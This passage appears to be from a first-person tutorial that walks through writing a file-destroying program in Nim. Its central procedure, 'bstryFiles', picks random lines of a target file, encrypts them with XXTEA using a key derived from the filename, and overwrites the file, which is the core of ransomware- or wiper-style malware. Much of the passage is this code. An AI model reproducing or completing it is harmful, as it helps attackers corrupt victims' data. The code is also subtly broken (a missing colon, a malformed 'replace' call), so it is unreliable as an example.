 ```
import strutils
for line in "test.pdf".lines:
 echo line
```
* Example output: 
    * ![](/imgs/img8.png)

We also need a way to loop through the content of *linesToEncrypt* to compare it to the current line of the file we are on. I tried doing this with 2 for loops but failed miserably and ended up using a variable as a counter which will start at 0 and as each iteration passes, it increases and will be compared to the length of *linesToEncrypt* in order to tell whether or not we've run out of lines in *linesToEncrypt* (pretty much a for loop but without the keyword). Then we use the same counter variable to reference the lines contained in *linesToEncrypt* & compare them to the current line we're on. We also need to call generateKey(filename) in order to generate our encryption key:

```
import random, os, strutils
proc bstryFiles(filename: string) =
 #initialize the randomization
 randomize()
 var maxNumOfLines = countLines(filename)
 var numOfLines = rand(1..maxNumOfLines)
 var linesToEncrypt = readLines(filename, numOfLines)
 var indx = 0 
 var buffer = ""
 var key = generateKey(filename)
 for line in filename.lines
  if indx <= len(linesToEncrypt)-1:
   if linesToEncrypt[indx] == line:
    # '\x0A' is equivalent of '\n'
    buffer.add(line.replace(encode(xxtea.encrypt(line, key))) & '\x0A')
    indx = indx + 1
  else:
   buffer.add(line & '\x0A')
 try:
  writeFile(filename, buffer)
 except IOError:
  echo "Cannot open file to write to it. Skipping..."
 return
```

There are some other things we added as well. We've added a variable named *buffer* which will hold the changed lines. If the line we're currently on is equal to the line contained in *linesToEncrypt* at x index, then we replace the line with an encrypted + encoded version of it & add it to the *buffer* variable. Otherwise, we add the line to the *buffer* variable as is since it isn't a line we need/want to encrypt.
